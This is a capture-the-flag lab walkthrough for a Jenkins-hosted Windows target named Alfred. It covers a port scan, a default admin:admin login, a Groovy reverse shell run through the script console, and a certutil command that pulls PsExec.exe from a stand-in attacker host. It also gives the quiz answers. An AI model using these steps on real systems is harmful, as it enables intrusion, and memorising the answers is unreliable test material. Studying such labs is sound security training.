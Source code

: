 # Alfred

### Initial Access
- How many ports are open? (TCP only)<br />

      nmap 10.10.128.203 -Pn -n                                              
      Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-11 09:03 EDT
      Nmap scan report for 10.10.128.203
      Host is up (0.053s latency).
      Not shown: 997 filtered tcp ports (no-response)
      PORT     STATE SERVICE
      80/tcp   open  http
      3389/tcp open  ms-wbt-server
      8080/tcp open  http-proxy
      Nmap done: 1 IP address (1 host up) scanned in 5.51 seconds
`3`

- What is the username and password for the login panel? (in the format username:password)<br />
Port 80 shows nothing interesting: <br />
![image](https://github.com/user-attachments/assets/e504da8e-e4a8-45b9-b180-1c661e9a6a09)<br />
Port 8080 shows a login panel: <br />
![image](https://github.com/user-attachments/assets/42bd93a2-81ec-45ff-a260-1f4ae3470381)<br />
Searching online for the default credentials, I gained access to the panel with the credentials admin:admin. `admin:admin`

- What is the user.txt flag?<br />
Playing around with the application, I found that in the "Manage Jenkins" section, there's the possibility of executing scripts: <br />
![image](https://github.com/user-attachments/assets/a3739b3e-629b-475d-a595-27518cfae65e)<br />
So, after some reasearch, I understood that the script must be written in groovy, which is an object oriented language that runs in the JVM, but was developed to be more concise and less verbose than Java. I found a groovy reverse shell [here](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76), the code for the reverse shell can be found in revShell.groovy inside this folder. So finally I was able to gain initial access:<br />
![image](https://github.com/user-attachments/assets/3a615248-071f-41f6-af7e-c5e7cf7928a6)<br />
So I was able to get the flag: <br />
![image](https://github.com/user-attachments/assets/5afb69d9-8d50-444e-87e0-a0914bd790de)<br />


### Switching Shells
- What is the final size of the exe payload that you generated?<br />
![image](https://github.com/user-attachments/assets/26d92c39-71f5-47dc-bde1-18e51cf5a21c)<br />
`73802`<br />
I didn't really updated to a meterpreter shell, that should not be a problem. 

### Privilege Escalation
Run `whoami /priv` to find out which privileges are enabled for my user: <br />
![image](https://github.com/user-attachments/assets/24016b3e-28c3-4b34-a3f8-d01b9100e879)<br />
We have the `SeImpersonatePrivilege`. After some reaserch I found out that this can be exploited using the `PsExec.exe` from the sysinternal utilities. So first i downloaded the .exe on my machine, and then transfered it on the windows reverse shell using the command `certutil -urlcache -split -f http://YOUR_IP:8000/PsExec.exe C:\Windows\Temp\PsExec.exe`. Now we can run `PsExec.exe` to locate the root flag.<br />

- Use the impersonate_token "BUILTIN\Administrators" command to impersonate the Administrators' token. What is the output when you run the getuid command? `NT AUTHORITY\SYSTEM`

 
